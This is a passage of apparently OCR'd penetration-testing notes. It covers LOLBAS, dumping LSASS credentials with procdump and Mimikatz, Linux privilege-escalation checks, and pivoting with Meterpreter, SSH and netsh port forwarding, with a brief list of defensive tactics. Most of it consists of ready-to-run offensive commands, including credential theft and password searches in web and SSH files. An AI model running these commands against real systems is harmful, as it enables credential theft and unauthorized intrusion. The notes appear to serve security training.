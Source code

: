 ### LOLBAS Project

* A community-driven list of legitimate binaries that can be used maliciously
* [https://lolbas-project.github.io/](https://lolbas-project.github.io/)

### Dumping Credentials with Mimikatz

```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
```

### Linux Privilege Escalation

* `sudo -l`
* `find / -perm -4000 -uid 0`
* `grep -iR password /var/www`
* Inspect `.history`, `.ssh`, credentials in source files

### Defensive Tactics

* Use strong EDR + behavioral analytics (UEBA)
* Monitor denied executions
* Harden allowlisting rules with strong change control

---

## Lateral Movement and Pivoting

### Using Meterpreter

```bash
portfwd add -l 8000 -r 10.10.10.100 -p 80
route add 10.10.10.0/24 1
```

### Host and Service Discovery

```bash
run arp_scanner -r 10.10.10.0/24
use auxiliary/scanner/portscan/tcp
set PORTS 22,80,443
```

### SSH and netsh Port Forwarding

```bash
ssh -L 8000:10.10.10.100:80 user@pivot
netsh interface portproxy add v4tov4 listenport=8000 connectport=80 connectaddress=10.10.10.100
```

---
